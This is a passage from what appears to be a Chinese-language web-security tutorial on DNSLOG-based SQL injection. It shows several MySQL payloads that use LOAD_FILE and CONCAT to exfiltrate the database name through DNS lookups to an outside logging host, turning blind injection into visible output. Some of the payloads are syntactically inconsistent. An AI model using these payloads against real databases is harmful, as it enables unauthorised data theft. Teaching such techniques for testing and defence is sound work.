 ![image-20220822154502818](../../images/image-20220822154502818.png)

##  3.利用DNSLOG注入

在前面的章节中，我们已经学习了DNS的原理和DNS服务的搭建。当DNS服务被请求时，会在DNSlog中留下相应的日志。

这种特性可以帮助我们在许多没有回显的漏洞利用中得到便利。

善于使用这个机制，可以在windows搭载数据库的环境中将盲注变为显注。

```
SELECT first_name, last_name FROM users WHERE user_id = '1'  and LOAD_FILE(CONCAT('\\\\',(select database(),'ubs9hj.ceye.io')))#'


1' and SELECT LOAD_FILE(CONCAT('\\\\',database(),'ubs9hj.ceye.io'))#

1'select load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'))#


SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=2 union select 2,load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'))#'

select load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'));
```